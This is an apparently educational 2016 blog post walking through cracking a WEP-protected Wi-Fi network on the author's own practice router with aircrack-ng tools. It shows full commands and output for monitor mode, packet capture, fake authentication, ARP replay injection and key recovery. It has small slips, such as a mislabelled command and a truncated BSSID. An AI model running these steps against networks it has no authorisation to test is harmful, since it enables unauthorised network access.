 ```yaml
---
layout:     post
title:      "Wireless Security"
subtitle:   "WEP Hacking"
date:       2016-09-25 2:00:00
author:     "W3ndige"
header-img: "img/wireless-security-wep-header.jpg"
category: Networking
---
```


<h1>Introduction</h1>

<p>Wired Equivalent Privacy (WEP) was introduced in 1999 as a part of 802.11 standard. It's puprose was to assure the privacy of the wireless network in a way near to wired networks. It's using RC4 cipher (with different key size: 64 and 128 bits) and CRC-32 checksum to mantain integrity. In addition WEP is using a short, 24 bit initialization vector (IV), which is added to the key provided by user, creating 'unique' for each packet RC4 key. But because the IV is so short, and it's used with the same key, WEP is now considered outdated, easy to crack and insecure.  </p>

![wep-crypto](/img/wireless-security-wep/wep-crypto.png){:class="img-responsive"}


<h1>Step by step attack</h1>

<p>Firstly we need to setup an old router, with WEP security option enabled, which will be our practice target. Also remember to have some other device connected to it wirelessly since we'll need to capture encrypted data between them. After that check whether or not your wireless card supports packet injection - if not, you have to get another one. I'm using TL-WN722N which is great and cheap option. Now, if you have everything up and running - let's move to Kali. </p>

<p>Firstly let's check if your adapter is seen by Kali - you can do this by typing <b>airmon-ng</b> command. </p>

{% highlight bash %}
root@kali:~# airmon-ng

PHY	Interface	Driver		Chipset

phy0	wlan0		b43		Broadcom on bcma bus, information limited
phy1	wlan1		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n
{% endhighlight %}

<p>For me it shows two cards - built in and USB one which is <b>wlan1</b></p>

<p>Now type <b>airmon-ng start [interface]</b> to set your USB adapter into monitor mode. If you encounter any problem try using <b>airmon-ng check kill</b> which will kill any processes using this adapter. After that I checked what name was assigned to the adapter - for me it was <b>wlan1mon</b> but yours can be different. </p>
{% highlight bash %}
root@kali:~# airmon-ng start wlan1


PHY	Interface	Driver		Chipset

phy0	wlan0		b43		Broadcom on bcma bus, information limited
phy1	wlan1		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n

		(mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
		(mac80211 station mode vif disabled for [phy1]wlan1)

root@kali:~# ifconfig
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 0  (Local Loopback)
        RX packets 2200  bytes 150212 (146.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2200  bytes 150212 (146.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan1mon: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        unspec F4-F2-6D-1A-99-ED-00-00-00-00-00-00-00-00-00-00  txqueuelen 1000
{% endhighlight %}

<p>Next step is to find the router - and get it's BSSID, channel (CH) and ESSID. You can do this by running command <b>airodump-ng [interface]</b>. This will show list of routers in range, information we need and some additional data. </p>

{% highlight bash %}
root@kali:~# airodump-ng wlan1mon
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 18:21:95:90:46:45  -86        2        0    0   1  54e. WPA2 CCMP   PSK  AndroidAP                                                                  
 54:B8:0A:10:DF:0E  -42       34        0    0   1  54e  WEP  WEP         pentest_wep                                                                
 D2:AE:EC:CE:DB:3B  -76       10        0    0   1  54e  WPA2 CCMP   PSK  DIRECT-mi pass-PHILIPS TV                                                  


 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                            

 00:27:22:2A:9C:0E  00:27:22:06:83:C3  -83    0 - 0     50       49                                                                                   
 C4:27:95:75:3E:45  10:30:47:E3:43:F5  -67    0 -11e     0        2  
{% endhighlight %}


<p>Here it is, we've got all information to start the attack. My target is <b>pentest_wep</b> with BSSID:<b>54:B8:0A:10:DF:0E</b> on channel <b>1</b>. Copy the essential information and open another terminal window (CTR + ALT + T). Now we're going to capture encrypted packets sent between the router and client device. We can do this with airodump-ng command. </p>

{% highlight bash %}
root@kali:~# airodump-ng -w pentest_wep -c 1 --bssid 54:B8:0A:10:DF:0 wlan1mon
{% endhighlight %}

<p>Explanation: <b>-w</b> will save the packets to the file called pentest_wep, <b>-c</b> is a channel that the target is using, and <b>--bssid</b> is to specify which router we're going to attack. Last thing is to choose the USB adapter running monitor mode.</p>

<p>That's what we're going to be shown after running this command. </p>

{% highlight bash %}
CH  1 ][ Elapsed: 32 s ][ 20016-09-25 10:16                                         

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                    

54:B8:0A:10:DF:0E  218 100      312     1927  223   1  54 . WEP  WEP         pentest_wep              

BSSID              STATION            PWR   Rate   Lost  Packets  Probe                               

00:A0:37:C3:D1:CB  06:19:E0:88:6A:4C  170   0-24   1005       16    
{% endhighlight %}

<p>As you can see we've got a few more information - number of beacons, data sent, packets, and data per second. These numbers will start at 0 and grow as the traffic is passed between the router and client device. Then this traffic is saved into the file, specified in the command argument, which we're going to use later in order to crack the password. But to make it work you will need at least 20,000 IV's, sometimes even more. I recommend you to 'harvest' around 100,000 as it will undoubtedly work. At this point you can wait until you get desired number of IV's. But what if the target isn't using internet at the time? What if he/she's sleeping? Yup, there's solution to this ;)</p>


<p>Open up another terminal window (remember not to close the one running airodump-ng) and type in this command <b>aireplay-ng -1 0 -a [BSSID] [interface]</b></p>

{% highlight bash %}
root@kali:~# aireplay-ng -1 0 -a 54:B8:0A:10:DF:0E wlan1mon
No source MAC (-h) specified. Using the device MAC (F4:F2:6D:1A:99:ED)
08:05:38  Waiting for beacon frame (BSSID: 54:B8:0A:10:DF:0E) on channel 1

08:05:38  Sending Authentication Request (Open System) [ACK]
08:05:38  Authentication successful
08:05:38  Sending Association Request [ACK]
08:05:38  Association successful :-) (AID: 1)
{% endhighlight %}

<p>After that run another command <b>aireplay-ng -1 0 -a [BSSID] [interface]</b></p>

{% highlight bash %}
root@kali:~# aireplay-ng -3 -b 54:B8:0A:10:DF:0E wlan1mon
{% endhighlight %}

<p>Aireplay-ng works by sending ARP request packets so that data and beacons should start growing quickly. This works even if no one is connected to the internet. </p>


<p>Now after we've already captured huge amount of packets close all the processes that were running, then type <b>ls</b> to see if the .cap file was saved. Then we can type <b>aircrack-ng [filename.cap]</b>. This will start the process of cracking the password. Attack will be restarted between every 5000 IV's. </p>

{% highlight bash %}
root@kali:~# aircrack-ng pentest_wep-01.cap
Opening pentest_wep-01.cap
Read 1894984 packets.

   #  BSSID              ESSID                     Encryption

   1  54:B8:0A:10:DF:0E  pentest_wep               WEP (9651 IVs)

Choosing first network as target.

Opening pentest_wep-01.cap
Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 9651 ivs.


                                 Aircrack-ng 1.2 rc3


                 [00:32:05] Tested 1972 keys (got 24276 IVs)

   KB    depth   byte(vote)
    0    4/  8   42(30720) 30(29696) B0(29696) 68(29184) 0E(28160)
    1    0/  1   31(34304) 0A(30720) 0F(29952) 35(29952) E9(29952)
    2    2/  5   0F(29696) A1(29440) CA(29440) CB(28928) F7(28928)
    3    2/  6   68(30720) 15(30464) 89(29696) E1(29696) 5F(29184)
    4    8/  9   92(29696) 9C(28928) B5(28928) 64(28672) 8F(28672)

                     KEY FOUND! [ 42:31:57:68:92 ]
	Decrypted correctly: 100%
{% endhighlight %}

<p>And we've got the key! Some versions of aircrack may show you also ASCII version of the key but both can be used to login into the wireless network. Notice that you can run aircrack at the same time as running airodump - that way it tries to crack the key every time you gather new 5000 IV's. </p>

<p>Notice how easy it was to gain access to the network protected with WEP? That's why you should never protect your network with this standard. </p>

<p>As always thanks for reading, keep tuned for the next part about more advanced algorithms like WPA or WPA2. I also really recommend trying it out by yourself as it's the best way to understand how it works and learning by practicing is the best way to gain knowledge. </p>

<p>~ Stay safe! </p>
